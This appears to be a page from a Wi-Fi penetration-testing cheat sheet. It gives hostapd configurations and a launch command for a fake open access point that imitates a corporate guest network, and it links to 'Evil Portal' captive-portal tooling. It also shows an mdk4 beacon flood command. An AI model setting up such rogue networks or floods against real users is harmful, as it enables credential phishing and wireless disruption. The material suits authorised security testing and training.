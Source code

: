 Hostapd config file for open authentication Wi-Fi network
```
interface=wlan1
driver=nl80211
ssid=GuestCorpWifi
bssid=A5:C4:0D:6A:75:3A
channel=6
```

Hostapd config file for WPA2-PSK authentication
```
interface=wlan1
driver=nl80211
ssid=dex-net
wpa=2
wpa_passphrase=password
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1

bss=wlan1_0
ssid=dex-network
wpa=2
wpa_passphrase=Password1
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```

Launch fake open authentication Wi-Fi network
```
hostapd open.conf
```

--> You can also use WiFi PineApple to setup a captive portal using the "Evil Portal" infusion.  
- https://wiki.wifipineapple.com/legacy/#!captive_portal.md
- https://github.com/kleo/evilportals

## Open Network

## Beacon flood attack
Beacon flood attack is more a nuisance attack linked to 802.11 protocol weaknesses.
- https://github.com/aircrack-ng/mdk4

You can randomly create SSID or give specific wordlist for SSID names.
```
mdk4 wlan1 b -a -g -f ssid_names.txt
```
